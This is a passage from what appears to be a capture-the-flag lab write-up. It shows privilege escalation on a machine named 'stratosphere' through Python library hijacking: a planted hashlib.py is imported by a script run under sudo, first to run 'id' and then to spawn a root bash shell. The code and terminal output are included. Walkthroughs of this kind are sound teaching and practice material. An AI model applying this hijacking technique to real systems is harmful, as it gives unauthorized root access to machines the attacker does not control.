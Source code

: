 ```
    q4 = input("Last one, I promise: 9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943\n")
    blake = hashlib.new('BLAKE2b512')
    blake.update(q4.encode())
    if not blake.hexdigest() == '9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943':
        print("You were so close! urg... sorry rules are rules.")
        return

    import os
    os.system('/root/success.py')
    return

question()
```

You may be tempted to run this and start solving hashes, however this is a red herring. Take a look at the top of the python file and you can see it's importing `hashlib`. 

Due to the way python works when using import, we can simply create a `hashlib.py` file with code to execute upon it's import when running `test.py`.

We can first test code execution by putting the following in `hashlib.py`

```python
import subprocess

result = subprocess.run(['id'])
result.stdout
```

```
richard@stratosphere:~$ sudo /usr/bin/python /home/richard/test.py 
uid=0(root) gid=0(root) groups=0(root)
Solve: 5af003e100c80923ec04d65933d382cb
```

And we have code execution! To elevate to a root shell we simply edit `hashlib.py` with the following:

```python
import subprocess

result = subprocess.run(['/bin/bash'])
```

```
richard@stratosphere:~$ sudo /usr/bin/python /home/richard/test.py 
root@stratosphere:/home/richard# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is ours!